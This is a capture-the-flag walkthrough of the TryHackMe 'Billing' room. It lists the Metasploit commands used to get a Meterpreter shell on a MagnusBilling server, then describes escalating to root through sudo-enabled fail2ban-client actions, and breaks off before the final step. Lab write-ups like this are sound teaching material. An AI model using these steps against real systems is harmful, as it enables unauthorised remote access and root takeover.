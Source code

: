 
2025-03-31 20:59

Source: #tryhackme #Boot2root #privesc 

Web page at port 80 which has a login page
### Enumeration 

Dirsearch shows a lot of options 
`README.md` holds version number of the service running on the app (i.e. MagnusBilling)

Then I did a bit of digging online and found [this](https://eldstal.se/advisories/230327-magnusbilling.html). (This didn't work)
### Exploiting 

Because this exploit was on Metasploit we do it that way 
below is the list of commands used to obtain meterpreter shell from start to end 
```
msfconsole 
search MagnusBilling
use 0 
set LHOST tun0
set RHOSTS billing.thm
exploit 
```

After getting the meterpreter shell type `shell` to get access to all Unix shell commands 
### Privesc 

`sudo -l` shows that `Fail2ban` runs as root

Fail2ban-client is a command-line tool that helps in managing the Fail2ban service. Fail2ban is a security tool that protects your server from potential threats like brute-force attacks by monitoring the log files for specific patterns (typically failed login attempts) and taking action, such as temporarily banning the offending IP addresses.

With the fail2ban-client, you can interact with the Fail2ban service to perform actions such as starting or stopping jails, viewing or updating settings, and checking the status of different jails on your server. Essentially, it helps you control how your server responds to suspicious activities to keep it secure.

I mainly read [this](https://juggernaut-sec.com/fail2ban-lpe/) to understand how I could leverage PE

Since I couldn’t edit the config files, I had to get a bit creative and think outside the box to figure out my next move. I decided to do a bit of reading on the [fail2ban man page](https://linux.die.net/man/1/fail2ban-client). I found out we could use the binary to enumerate the information necessary. Furthermore, we could use it to perform the exploit as well.


First up, I needed to enumerate the active jails on the system to see what I was working with:

```
sudo /usr/bin/fail2ban-client status
```

`SSHD` was set as one of the jails, so we figure out what actions from the `action.d` folder it has set up on it:

```
sudo /usr/bin/fail2ban-client get sshd actions
```

Next, we add an action for the `iptables-multiport` to run when an `ip` gets banned on the `sshd` service. This action will be for the binary to read the root.txt file.

### References
[TryHackMe | Billing](https://tryhackme.com/room/billing)

[CTF Chronicles: Billing | THM – NATSec](https://natsecure.wordpress.com/2025/03/08/ctf-chronicles-billing-thm/)